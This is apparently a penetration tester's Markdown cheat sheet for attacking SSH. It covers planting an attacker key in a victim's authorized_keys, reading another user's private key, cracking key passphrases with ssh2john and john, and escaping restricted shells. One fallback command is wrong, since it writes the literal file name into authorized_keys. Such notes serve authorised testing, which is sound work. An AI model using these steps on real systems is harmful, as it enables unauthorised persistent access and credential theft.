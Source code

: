 ```yaml
---
category: Uncategorized
tags: []
---
```

#### SSH Enuemration
```bash - kali
ssh $TARGET -p 22
```

#### Generate key upload to victim
Target:
```bash - target
cd ~
```

```bash - target
mkdir .ssh && cd .ssh
```

Kali:
```bash - kali
ssh-keygen
```

```bash - kali
cp /home/kali/.ssh/id_rsa* .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Target:
```bash - target
wget http://$KALI/id_rsa.pub
```

```bash - target
mv id_rsa.pub authorized_keys
```

Grant proper permissions (0700 for **~/.ssh** and 0644 for **~/.ssh/authorized_keys**).

Kali:
```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```

If that fails, try:
```bash - kali
echo id_rsa.pub > ~/.ssh/authorized_keys
```

Then:
```bash - kali
ssh $USER@$TARGET
```

#### id_rsa

Target:
```bash
cat /home/user/.ssh/id_rsa
```

Kali, copy value to local id_rsa file:
```bash
sudo chmod 600 id_rsa
```

```bash
ssh -i id_rsa $USER@$TARGET -p 2222
```

#### Disable login scripts

Kali:
```bash - kali
ssh $USER@$TARGET -t 'bash --noprofile'
```

#### ssh2john keyphrase
```bash
locate ssh2john
```

OR

```bash
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
```

```python
python3 /usr/share/john/ssh2john.py id_rsa > key.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```

#### [Error] no matching host key exchange type found.
```bash - kali
ssh $TARGET -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc -p 22
```

```bash - kali
ssh $TARGET -oHostKeyAlgorithms=+ssh-dss -p 22
```

#### Escaping from rbash
```bash
ssh $USER@$TARGET -t "bash --noprofile"
```